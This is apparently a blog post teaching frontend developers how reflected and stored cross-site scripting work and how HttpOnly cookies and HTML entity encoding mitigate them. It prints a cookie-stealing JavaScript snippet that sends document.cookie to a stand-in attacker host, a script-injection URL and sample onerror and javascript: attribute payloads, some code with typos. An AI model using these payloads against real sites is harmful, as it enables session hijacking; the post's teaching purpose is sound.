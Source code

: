 ```yaml
---
title: Tackle Cross-Site Scripting Vulnerabilities in Frontend Development
date: 2021-05-20
tags: web development, security, networking
index_img: /images/thumbnail/xss.jpg
---
```

### How does Cross-Site Scripting work? 
Cross-Site Scripting(XSS) is one of the most common security attacks on the client side of the application. XSS attacks is a type of code injection, where the malicious script or a segment of code is injected in the request to the server, and the server response which contains that maliciosus code will be run by victim's browser. Depending on what the injected code does, XSS attacks can cause a wide variety of damages to the victims, including stealing sensentitive user info from cookie, redirecting users to the malicious site built by the attackers, and even internally crashing user's machine by overflowing the memory, and so on.

Suppose you are a user of a financial site A(let's call it doerj.github.io), in which you usually manage your financial products and trade in stock market. After you logged in doerj.github.io, you will be directed to the url: `www.doerj.github.io/index.php?username=<user>` where the query parameter value `user` will be just the placeholder for your actual username, and this url request returns a user landing page with a page title of "Welcome back user!". What happens here, is that when you have filled in your user credentials in the log-in page, the application sends a GET request that contains your username as a query parameter to the server, and retrieve your account info from the database. The server then sends a html template(the user landing page) back to your browser, which parses your username out of the url for displaying the page title. 

Imagine there is a hacker who knows doerj.github.io is exposed with XSS security vulnerabilities, and wants to get your session id so the hacker can access your account as a logged-in user(i.e., pretend to be you). The session id is usually stored in the cookie with the server response, thus in order to get that session id, the hacker needs to make your browser execute a segment of code that extracts the session id from your cookie, and sends it to the hacker's own server. The first step for hacker is to think of a way if injecting his code into your request to doerj.github.io. One of the most common approches of doing that is to send you an anonymous email which contains a malicious url, and triggers you to click on that url. The url will be something like `www.doerj.github.io/index.php?username=<script>getSessonidFromCookie()</script>`. When you click on the url, the html template will try to get your username from the query parameter in the url, which is `<script>getSessionidFromCookie()</script>` in this case. Since the browser has no mechanism to detect whether the script tag in the DOM tree could be trusted or not, the injected script will be executed regardless. The injected script could be as the following:
```javascript
var session_id = documnet.cookie;
fetch('www.hackersite.com', { session: session_id }).then(() => { return; });
```
What the code does is getting your cookie that contains your session id, and send to hacker's server. Now the hacker has your session id, and can store the id in hackers' own browser while making request to doerj.github.io. The server of doerj.github.io sees the session id in hacker's cookie, thus recognizes the hacker as you, and gives the hacker access to your account.

The scenario above is just one type of XSS attacks, which is known as `reflected XSS`. Reflected XSS occurs when the injected code travels with the user request, all the way to the server-side, and is reflected in the server response and finally executed by user's browser. This type of attacks requires certain user action to trigger the code injection, such as clicking on a designated link to inject the malicious script into the url or the request body. There is also `stored XSS` where the script permanantly resides on the server-side. Whenever the infected server receives a user request that contains some user info, the script will act as a man-in-the-middle, intercept the sensentive info that the server fetched from the databse, and send to attack's appointed site. 

### What are the solutions?
##### HTTP-only cookie
HTTP-only is an attribute that can be specified for the cookie. The cookie value with HTTP-only attribute can not be accessed by any script anymore, thus the hacker will not be able to use script or document API to get information from the cookie and send to hacker's own computer. Setting HTTP-only cookie doesn't eliminate XSS attacks from happening, but effectively mitigates the sensitive info from being stolen from the source. The following code sets HTTP-only attribute to cookie using node.js:
```javascript 
cosnt cp = require('cookie-parser');
app.use(cp());

app.post('/example-route', (req, res) => {
  res.cookie('session_id', '123456', {
    httpOnly: true
  });
  res.send('<div>Cookie has been set with HTTP-only!</div>');
})
```

##### Encoding on the output 
To prevent XSS attacks in our applcations, we should have the mindset that each DOM documnet is a HTML template that has slots into which untrusted data can be inserted. When the browser renders a DOM tree, it has no idea whether each data comes from a trusted data source. Therefore, it is important to prevent the browser switching to execution context while rendering HTML template. One way to achieve that is to apply HTML entity encoding to the HTML element content that contains any dynamic data attribute or the data that may comes from a untrusted source. The following characters are encoded with HTML entity and can be used in HTML element content:
```text
 & --> &amp;
 < --> &lt;
 > --> &gt;
 " --> &quot;
 ' --> &#x27;
```

Other than the HTML element content, the HTML attribute values can also be the place to inject javascript code using `javascript pseudo protcol`. For example:
```html
<div>
  <a href="javascript:injectCode()"></a>
  <div onclick="javascript:injectCode()"></div>
  <div onerror="javascript:injectCode()"></div>
  <img src onerror="alert('XSS')"/>
</div>
```
Therefore, the values should also be encoded before being put into HTML attributes. 


